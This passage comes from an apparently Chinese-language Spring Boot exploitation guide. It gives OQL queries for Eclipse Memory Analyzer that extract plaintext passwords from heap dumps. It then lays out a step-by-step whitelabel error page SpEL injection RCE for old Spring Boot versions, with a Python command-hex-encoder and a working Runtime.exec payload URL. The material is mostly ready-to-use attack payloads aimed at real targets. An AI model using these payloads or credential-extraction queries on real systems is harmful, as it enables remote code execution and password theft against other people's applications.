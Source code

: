 参考 [文章](https://landgrey.me/blog/16/) 方法，使用 [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) 工具的 **OQL** 语句 

```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))

或

select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))
```

辅助用 "**password**" 等关键词快速过滤分析，获得密码等相关敏感信息的明文。





### 2.命令执行

#### 2.1.whitelabel error page SpEL RCE

##### 利用条件

- spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot 默认错误页面的接口及参数名



##### 利用方法

**步骤一: 找到目标网站正常传参点**

比如发现访问  `/xxxx?id=xxx` ，页面会报状态码为 500 的默认错误页面



**步骤二: 确认漏洞点**

输入 `/xxxx?id=${运算表达式}` (假设运算表达式为7x7)

如果发现报错页面将 7x7 的值 49 计算出来并显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。



**步骤三: 命令执行漏洞利用**

运行代码将执行的命令字符串转换成 `0x**` java 字节形式(只需将target变量修改为需要执行的命令即可)

```python
# coding: utf-8

result = ""
target = '执行的命令'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```



执行 `open -a Calculator` 命令

```java
http://ip:port/article?id=${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```
